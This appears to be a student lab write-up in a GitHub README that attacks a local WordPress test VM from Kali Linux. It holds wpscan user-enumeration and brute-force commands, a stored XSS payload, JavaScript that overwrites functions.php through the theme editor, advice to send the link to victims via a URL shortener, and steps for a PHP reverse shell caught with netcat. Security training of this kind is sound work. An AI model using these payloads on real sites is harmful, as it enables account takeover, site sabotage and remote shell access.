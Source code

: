 # WordPressvsKali
Exploit 1: User Enumeration

In this exploit, I launched a user enumeration attack on WPDistillery.vm

1. Open a terminal in Kali
2. Access wpscan tool
3. Input the command
  - sudo wpscan --url http://wpdistillery.vm -e u rockyou.txt
  - Note: -e = enumeration, u = user, and I used rockyou.txt as the userlist.
  
  ![image](https://user-images.githubusercontent.com/111927957/198867624-89719a11-b1f8-4dac-9ea2-abc15ae25f50.png)
  
  The results of the user enumeration scan:
  
  ![image](https://user-images.githubusercontent.com/111927957/198867668-cf89a4a8-8283-4ad0-8e65-b0676c2a8c3c.png)
  
  The enumeration scan identified "admin" as an available user.
  
  This can be checked by attempting to login as Admin on wpdistillery.vm/wp-login.php
  
  ![image](https://user-images.githubusercontent.com/111927957/198867726-35f6a92c-34ed-4111-be9f-97624dd0da9b.png)
  
  The results show that "The password you entered for the username admin is incorrect". This proves that admin is a user on this website. 
  
  Next, I will bruteforce into admin using wpscan.
  
  1. Continuing on the same terminal, insert the command: 
    - sudo wpscan --url http://wpdistillery.vm/wp-login.php -U 'admin' -P fasttrack.txt
    - Note: I'm using fasttrack.txt wordlist to bruteforce into admin.
  ![image](https://user-images.githubusercontent.com/111927957/198867852-f8efa7d9-37e8-4bf9-aee1-a6349979a3dc.png)
  
  ![image](https://user-images.githubusercontent.com/111927957/198867860-d9372c27-a756-4ffc-9b8a-43e7f6f55b2d.png)
  
  Results of the wpscan shows that user "admin" has the password "admin".

  Now we are able to log in as admin and access the website.
  
  Exploit 2: XSS
  
  In this exploit, I will show a method to launch a XSS attack. 
  
  1. As admin, add this script as a new post in the text tab then publish:
     - <script>eval(window.location.hash.substring(1))</script>
     - This makes the website vulnerable to XSS
     - To confirm that it works, go back to the mainpage wpdistillery.vm then add /#alert(1)
     - An alert box should pop up, showing (1)
     ![image](https://user-images.githubusercontent.com/111927957/198874401-26b38a41-6bc0-444d-a1bb-e3b1a6b4c81b.png)
     
   2. Go to theme editor > file functions.php
   3. Insert the following code to break the page:
   -nc=document.querySelector('#newcontent');nc.value='<?php echo "HACK THE PLANET";phpinfo();exit()?>'+nc.value;nc.form.submit.click()
   
   4. Refresh the page the add this to the end of the URL:
   #i=document.createElement('iframe');document.body.appendChild(i);i.src='/wp-admin/theme-editor.php?      file=functions.php';window.setTimeout(function(){nc=i.contentDocument.querySelector('#newcontent');nc.value='<?php echo "HACK THE PLANET";phpinfo();exit()?>'+nc.value;nc.form.submit.click()},3000)
  
   5. Users now won't have access to the website.

![image](https://user-images.githubusercontent.com/111927957/198875062-37c59997-b311-4f63-a008-697fabf3d330.png)

  6. Use a URL shortener to deliver and send this attack as an email or even a comment that the user would read/click on.

Exploit 3: Privilege Escalation

  This exploit will show privilege escalation on WPDistillery.vm
  
  1. Using user enumeration as previously shown, the attacker can use leverage this skill by finding a user available for attack.
  2. Once the user is able to log in using an authenticated user, the attacker can now attempt to escalate the privilege by opening a reverse shell.
  3. This can be done by using 404.php template on WordPress and inserting a reverse shell implementation php.
      ![image](https://user-images.githubusercontent.com/111927957/198873488-db0d3e67-f8bd-49fc-af98-b69be130547a.png).
      
  4. The reverse shell php file can be found in usr/share/webshells
    ![image](https://imgur.com/MiJ6IKF.gif)
      
  5. Make sure to change the IP and Port configuration on the reverse shell php to the correct IP and listening Port so          NetCat can listen to the specified port and access the shell.
  
  6. Use the following command to listen on the specified port:
     - nc -lvp 443
   
  7. If successful, the user should be inside the console.
  8. This can be confirmed by using whoami command in the console. 




  


